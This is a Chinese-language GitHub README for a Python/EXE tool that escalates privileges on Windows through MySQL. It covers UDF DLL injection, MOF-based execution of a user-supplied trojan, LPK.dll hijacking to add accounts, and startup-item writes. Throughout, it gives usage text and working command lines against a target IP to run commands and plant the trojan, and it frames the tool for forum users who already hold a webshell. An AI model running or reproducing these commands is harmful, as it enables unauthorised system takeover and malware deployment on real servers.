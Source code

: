 # python-promoting-privileges

1.自动导出你的backdoor和mof文件，

2.自动判断mysql版本，根据版本不同导出UDF的DLL到不同目录，UDF提权

3.导出LPK.dll文件，劫持系统目录提权

4.写启动项提权 

工具仅做方便使用，技术含量几乎没有。

用py脚本写的，也打包成exe了，个人用的还算顺手。

用法：
```
promote:PythonDemo v5est0r$ python root.py
  __            _    __  __       ____   ___  _
 / _|_   _  ___| | _|  \/  |_   _/ ___| / _ \| |
| |_| | | |/ __| |/ / |\/| | | | \___ \| | | | |      Author：v5est0r
|  _| |_| | (__|   <| |  | | |_| |___) | |_| | |___
|_|  \__,_|\___|_|\_\_|  |_|\__, |____/ \__\_\_____|
                            |___/

usage: root.py [-h] [-a HOST] [-o PORT] [-u USER] [-p PASSWD] [-e EXECUTE]
               [-m METHOD]

fuckmysql

optional arguments:
  -h, --help            show this help message and exit
  -a HOST, --host HOST  MySQL server ip
  -o PORT, --port PORT  MySQL Port
  -u USER, --user USER  mysql UserName
  -p PASSWD, --passwd PASSWD
                        mysql password
  -e EXECUTE, --execute EXECUTE
                        command for UDF to execute
  -m METHOD, --method METHOD
                        elevate method,eg:udf/mof/lpk/st
```
![Alt text](./pic/vashvJHVAJSHVCJHavj.png)

我在虚拟机演示打包好的exe远程提权，坛子的老哥们都是明白人，我就不多说了，直接上图：

默认UDF提权，也可以`-m udf`指定方式，`-e ipconfig`指定执行的cmd，默认执行whoami：
```
root.exe -a 192.168.1.105 -p root -e "ver&whoami" -m udf
```

![Alt text](./pic/jhfashvhavha.png)

有时候UDF无效，我们使用LPK.dll劫持：

```
root.exe -a 192.168.1.105 -p root -m lpk
```

![Alt text](./pic/hasjhvjhas.png)

验证一下lpk是否加上账户:

![Alt text](./pic/hbashjvchjasvh.png)

有时候UDF和LPK都无效，目标是windows2003，还有机会，可以MOF：

把你的木马的hex复制到同目录的hex.txt就行了，程序会导出木马到指定目录，并用mof执行。

![Alt text](./pic/avavJHdaHjadkj.png)

每隔几秒就运行一次木马，有点尴尬，如何停止mof老司机都知道，我就不多说了。

![Alt text](./pic/hbajhvjhasJdavkjdJBAS.png)

有时候UDF和LPK都无效，那我们只能尝试被动写启动项：

```
root.exe -a 192.168.1.105 -p root -m st
```
![Alt text](./pic/jvaJHVJC.png)

可能存在路径编码问题写不成功，你可以根据提示，用本地的MySQL连接上去，执行。

![Alt text](./pic/vqfjhvajshcvasnCAKQJ.png)

当然还有情况是远程提权，UDF不能创建plugin目录，网上流传的ADS流创建目录我是没有成功过，工具里加了ADS流创建目录的代码，那么我们删掉plugin目录，再远程试试：

![Alt text](./pic/jhvcajhvhacsHGXCfxafxG.png)

如上图，那就不行了，那么这种情况下，如果你有shell，在shell里的本地模式执行，就不一样了。

本地模式：
一般来说，php一般权限都是可以创建目录的，此处必须指定主机为`localhost或127.0.0.1`才会调用本地模式：
```
root.exe -a 192.168.1.105 -p root -e "ver&whoami" -m udf
```

![Alt text](./pic/jqwhvdqhvhavshHHVJHV.png)
